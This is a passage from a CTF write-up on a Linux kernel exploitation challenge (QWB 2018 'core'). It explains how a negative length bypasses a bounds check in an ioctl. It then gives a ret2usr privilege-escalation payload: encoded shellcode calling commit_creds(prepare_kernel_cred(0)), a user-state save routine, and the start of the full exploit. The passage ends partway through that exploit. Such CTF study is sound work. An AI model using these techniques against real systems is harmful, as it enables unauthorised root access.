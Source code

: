 If you debug the above payload, you would find our negative parameter bypasses the check. However, this demo can't hit the return because -1 is too large and some important data would be broken. 
```
.text:0000000000000120                 movzx   ecx, bx
.text:0000000000000123                 mov     rsi, offset name
.text:000000000000012A                 mov     rdi, rsp
.text:000000000000012D                 xor     eax, eax
.text:000000000000012F                 rep movsb
```
In above code, `bx` is moved to `ecx`. And `ecx` is used as the length to copy the data. Therefore we can make a better payload to avoid triggering the crash, such as 
```c
    size_t poc = 1;
    poc = (poc<<63) | 0x100;
    ioctl(fd,OOB,poc);
```

So our current task is to construct a payload to get the shell. There are several feasible solutions to this challenge.

# 0x03 ret2user

Because there is no `smep`, we can perform `ret2usr` which means run the code in user space so that we don't need to find specifical gadgets. 
```c
char* shellcode(){
    char * gadgets = mmap(0xdead000,0x1000,7,0x22,0,0);
    char *str = "H1\xffX\xff\xd0H\x97X\xff\xd0\x0f\x01\xf8H\xcf";
    memcpy(gadgets,str,0x100);
    return gadgets;
}
// xor rdi,rdi
// pop rax
// call rax
// xchg rax,rdi
// pop rax
// call rax
// swapgs
// iretq
```
The above shellcode would call `commit_creds(prepare_kernel_cred(0))` and return to the user space.

Btw, we need to provide the return address and other information in user mode. I used a module from `ctf-wiki` to save the state in userspace.
```c
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*] status has been saved.");
}
```
And the whole exploit script would looks like this 
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <stdlib.h>
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/QWB_2018/core